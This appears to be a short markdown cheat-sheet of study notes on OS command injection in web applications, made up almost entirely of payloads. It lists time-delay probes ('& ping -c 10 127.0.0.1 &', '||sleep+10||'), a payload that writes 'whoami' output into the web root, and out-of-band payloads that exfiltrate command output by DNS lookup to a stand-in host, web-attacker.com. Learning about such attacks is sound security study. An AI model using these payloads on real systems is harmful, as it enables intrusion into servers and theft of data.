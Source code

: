 # Detecting command injections

Using mails example:
```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

Using time delays:
```bash
& ping -c 10 127.0.0.1 &
```
Example:
```
&email=x||sleep+10||
```

# Exploiting by redirection output
```bash
& whoami > /var/www/static/whoami.txt &
```
Then visit https://vulnerable-website.com/whoami.txt

# Out of band techniques #OAST

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
